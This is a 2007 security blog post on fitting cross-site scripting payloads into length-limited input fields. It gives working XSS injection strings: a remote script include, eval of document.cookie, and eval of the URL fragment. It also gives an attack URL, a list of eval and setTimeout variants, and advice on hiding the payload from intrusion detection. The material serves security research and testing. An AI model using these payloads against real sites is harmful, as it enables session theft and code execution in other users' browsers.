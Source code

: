 ```yaml
---
title: Playing in Large
author: pdp
date: Tue, 06 Feb 2007 14:18:53 GMT
template: post.pug
---
```


> Many times, Web Applications enforce restrictions on the number of characters the user can input. That happens quite often since this is probably the easiest and most obvious way of sanitizing the user input. Overcoming these restrictions, when performing Cross-site scripting attacks, is a challenge, so I am going to discuss a few techniques that I have developed, which prove to be quite useful in various situations.

When you are restricted by the size of input, you have to think about the smallest possible unit that can expand to something that is much bigger. In traditional buffer overflow vulnerabilities attackers take advantage of various packaging techniques. Sometimes, the overflow crack is so small that only 140-160 bites (figuratively speaking) of data can squeeze in. This obstacle is overcome by injecting small piece of binary code that downloads additional, much larger, piece of code (probably an executable). Similar principles apply to Cross-site scripting vulnerabilities. Let's generalize the XSS payload structure in order to find how to squeeze data into a **N** characters long field.

When dealing with Cross-site scripting vulnerabilities we may need to close or fix the markup to the place where the injection occurs. This adds a few characters, so we need to count them as part of the payload. Think about them as a nop sled. If the injection occurs inside an element attribute, you may need to inject something like the following:

	">[payload]<!--

The first two characters will close/fix the markup to the place where the injection occurs. Then the payload follows. After the payload everything else is commented out to ensure that nothing breaks the injected code. This adds four characters at the end.

Most of the time, when more then the maximum characters needs to be inject, attackers go through the extreme situation of including a remote JavaScript file via a `SCRIPT` tag. For example:

	"><script src="http://path/to/evil"></script><!--

This file can be of any size and can contain as much code as we want. However, like overflow vulnerabilities, this technique is fairly restricted in terms of the easily applicable preventing mechanisms against it.

If you imagine that the payload, discussed above, is part of an AJAX worm, the easiest way to fight the malware back is to block access to `http://path/to/evil`. That of course is not the desired effect attackers try to achieve.

In order to bypass the restriction without using external resources you need to look for a way of transmitting information to the exploited target. This can be achieved by setting the cookie wit CSRF, for example, and evaluating its content inside the browser. The following may become our payload:

	"><script>eval(document.cookie)</script><!--

Sneaky! This technique relies on a different vulnerability so it might not be the best way of achieving the desires result.

Fortunately or not, WEB technologies are so flexible that attackers can always find ways to squeeze stuff in the fields they are after. Here is how we can change the payload in order to fit a couple of kilobytes JavaScript code inside 60 characters long field.

	"><script>eval(location.hash.substr(1))</script><!--

The payload above is composed of 55 characters in total. This includes the sled and the end fix. What this snippet does is evaluating everything that is part of the hash (fragment identifier), which is part of the URL. The above payload can be translated into the following imaginative attack URL.

	http://path/to/vulnerable/application?vuln="><script>eval(location.hash.substr(1))</script><!--#**[payload]**

If you replace "**[payload]**" with the code your want to execute then in practice you inject 55 characters into the server side application and the rest is obtained by the client. The server side restriction is bypassed. This attack can be refined to produce even smaller injected payload. For example:

	http://path/to/vulnerable/application?vuln="><script>eval(location.substr(92))</script><!--#**[payload]**

The example above presents a reduced payload that is composed of 48 characters in total. Keep in mind that we are still able to evaluate everything that is after the hash or in simple words; we evaluate everything from the URL after the 92nd character.

Although we are generally discussing how to fit more stuff into a size restricted, unsanitezed field, the techniques presented above are suitable for all kind of situations. In fact, I believe that they are the desired way of performing Cross-site scripting attacks.

You should know that fragment identifier (the hash) is not part of the server request; as such attackers can use it to hide their malicious activities. Every large URL can trigger the Intrusion Detection system. This is something that attackers try to avoid. If the server activities are less suspicious, the chances of somebody discovering the exploit are also greatly reduced.

For testing and demonstration purposes you can use the following list of variations of the attack technique discussed in this article:

```javascript
eval(location.substr(92))
setTimeout(location.substr(92))
```

```javascript
eval(location.hash.substr(1))
setTimeout(location.hash.substr(1))
```

```javascript
eval((''+location).substr(28))
setTimeout((''+location).substr(28))
```

```javascript
eval(location.search.substr(20))
setTimeout(location.search.substr(20))
```
